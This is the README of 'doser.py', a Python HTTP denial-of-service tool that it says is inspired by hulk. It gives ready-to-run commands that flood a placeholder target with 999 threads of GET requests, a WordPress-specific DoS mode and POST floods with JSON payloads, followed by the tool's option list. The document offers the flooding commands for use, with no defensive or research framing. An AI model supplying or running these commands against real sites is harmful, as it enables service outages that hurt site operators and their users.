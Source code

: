 # doser.py
DoS tool for HTTP requests (inspired by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Examples
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```
Perform Wordpress Dos:

```bash
python doser.py -t 999 -g 'https://targeted.site.com' -wpd true
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used
